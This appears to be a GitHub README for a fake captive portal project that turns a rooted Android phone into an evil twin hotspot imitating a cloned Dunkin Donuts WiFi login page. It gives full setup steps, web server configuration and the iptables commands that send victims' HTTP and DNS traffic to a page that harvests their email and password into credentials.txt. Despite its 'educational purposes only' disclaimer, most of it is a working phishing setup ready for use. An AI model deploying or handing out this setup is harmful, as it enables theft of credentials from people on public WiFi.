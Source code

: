 ## Fake Captive Portal Using Android Phone

![Capture3](https://user-images.githubusercontent.com/41119320/55952223-bcc32700-5c61-11e9-879c-1ccc808b81aa.PNG)

![Capture4](https://user-images.githubusercontent.com/41119320/55952224-bd5bbd80-5c61-11e9-9749-775c33d7a891.PNG)

This project is about preparing a phishing attack on a certain captive portal. In my case, I used a cloned Dunkin Donuts portal.

We will learn how setup a Fake Captive Portal on a Web Server hosted by a rooted Android device.
By creating an open hotspot with the same name as the open AP, a user might accidentally connect to your hotspot instead (especially if your WiFi signal is better). He will be immeditately redirected to your cloned but modified captive portal page, where he is required to insert sensitive information such as his email and password in order to access the WiFi.

The credentials will be saved inside `\splash\C4M\credentials.txt`.

**This project is clearly for educational purposes only.** The goal is to learn about the vulnerabilites of a captive portal, and how dangerous it is to have an open AP that can be easily suceptible to malicous attacks such as phishing, man in the middle, Rogue AP and Evil Twin.

### Prerequisites

- **Rooted Android Phone**
- **SIM card with a Mobile Data Plan**
- **Web Server App** (*Bit Web Server* or *KSWEB*)
- **Root Explorer**
- **[iptables2](https://www.apkmonk.com/app/jp.ymatsumoto.iptables2/)** **OR** **[Android Debug Bridge (adb)](https://dl.google.com/android/repository/platform-tools-latest-windows.zip)**

If you want to change the default captive portal page, you can access the page and save everything as .html using the Firefox extension [SingleFile](https://addons.mozilla.org/en-US/firefox/addon/single-file/)

### Installation

1. First and foremost, you need to root your Android Phone in order to execute the `iptables` commands. 
You can learn more about rooting [here](https://www.androidcentral.com/root)

2. Next, install a Web Server App on your phone. I highly recommend using **Bit Web Server** or **KSWEB**.
Note that **Bit Web Server** does not support Android 8 or higher, unlike **KSWEB**.

3. Configure and start a hostpot

### Configuration

1. Open the Web Server App and write down the server's IP Address and port (usually, it's 8877)

2. Modifiy the **SERVER_IP_ADDRESS** in the files `\404.php` and `\redirect.sh`

3. Configure the `lighttpd.conf` file using the Web Server App or Root Explorer:

* `server.document-root = "/sdcard/www"`
* `server.dir-listing = "disable"` OR `dir-listing.activate = "disable"`
* `server.error-handler-404 = "/404.php"`

4. Using Root Explorer, you can copy all the files to your Web Server Root directory:

* `404.php` to `/sdcard/www`
* `splash` folder to `/sdcard/www`

### Changing the iptables to redirect the user

#### METHOD 1 - Using the redirect script

You can simply copy the `redirect.sh` script to your Android Phone and execute it using **iptables2** or **adb**.

1. If you're using **adb**, connect your device to the computer and open a terminal:

        adb devices

2. Open a remote shell:

        adb shell

3. Elevate the privileges

        su - 

4. Now navigate to your `redirect.sh` script and execute it:

        ./redirect.sh

5. To check the current iptables rules, you can execute:

        iptables -L

        iptables -t nat -L

#### METHOD 2 - Using iptables2

You can use **iptables2** to insert the rules one by one

1. Redirect the port 8877 of your Web server to the HTTP port 80

        iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8877

2. Enable the DNS packets since the user will try to access the internet using a domain name, so he will be redirected to your captive portal

        iptables -A FORWARD -p udp --dport 53 -j ACCEPT
        
        iptables -A FORWARD -p udp --sport 53 -j ACCEPT

3. To redirect the user accessing the port 80 to your Web server

        iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination SERVER_IP_ADDRESS

4. Finally, the default iptable rule is to drop other packets

        iptables -P FORWARD DROP

